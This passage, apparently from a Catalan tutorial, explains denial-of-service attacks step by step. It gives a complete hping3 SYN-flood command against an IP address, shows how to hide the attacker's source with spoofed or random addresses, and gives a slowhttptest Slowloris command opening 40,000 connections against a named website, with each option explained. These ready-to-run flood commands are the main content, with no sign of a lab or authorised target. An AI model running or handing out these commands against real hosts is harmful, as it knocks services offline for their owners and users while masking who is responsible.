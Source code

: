 Ara explicaré què significa cada part de l'ordre:

- __p 80__ és el port que triem atacar

- S activa el flag Syn

– flood indica a hping que enviï els paquets a la màxima velocitat possible

- ip_victima és la __ip__ o __domini__ a atacar

Si volem que la nostra ip no sigui visible podem afegir-li l'opció –ai la ip que falsejarem o bé utilitzar –rand-source amb què es generen adreces d'origen ip a l'atzar:

``hping3 --randsource -p80 -S --flood 10.200.243.164``

o també podem utilitzar: `Slowhttptest`, nosaltres utilitzarem __slowhttptest__.

> _slowhttptest - Denial Of Service attacks simulator_

`slowhttptest -c 40000 -H -i 30 -r 500 -l 600 -u http://cryptosec.net`

``-c`` _number of connections
Specifies the target number of connections to establish during the test._

``-H'`` _Starts slowhttptest in SlowLoris mode, sending unfinished HTTP requests._

``-i`` _seconds
Specifies the interval between follow up data for slowrois and Slow POST tests._

``-r`` _connections per second
Specifies the connection rate._

``-l`` _seconds
Specifies test duration in seconds._

``-u`` _URL
Specifies the URL._
